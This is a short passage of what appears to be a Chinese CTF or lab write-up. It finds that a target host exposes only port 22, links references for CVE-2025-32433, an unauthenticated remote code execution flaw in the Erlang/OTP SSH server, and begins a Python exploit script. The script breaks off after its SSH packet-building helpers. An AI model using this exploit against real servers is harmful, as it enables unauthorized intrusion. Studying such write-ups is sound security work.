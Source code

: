 ![](assets/img/attachments/QQ_1754558746028.png)  

`10.117.116.188`  

![](assets/img/attachments/QQ_1754559472829.png)  

就一共22端口  

找到两篇文章  
[Erlang/OTP 严重SSH 漏洞允许未认证的远程代码执行](https://forum.butian.net/article/709)
[CVE-2025-32433](https://github.com/platsecurity/CVE-2025-32433/tree/main)

exp  
```python
import socket
import struct
import time
import argparse
import base64


# Helper to format SSH string (4-byte length + bytes)
def string_payload(s):
    s_bytes = s.encode("utf-8")
    return struct.pack(">I", len(s_bytes)) + s_bytes


# Builds SSH_MSG_CHANNEL_OPEN for session
def build_channel_open(channel_id=0):
    return (
        b"\x5a"  # SSH_MSG_CHANNEL_OPEN
        + string_payload("session")
        + struct.pack(">I", channel_id)  # sender channel ID
```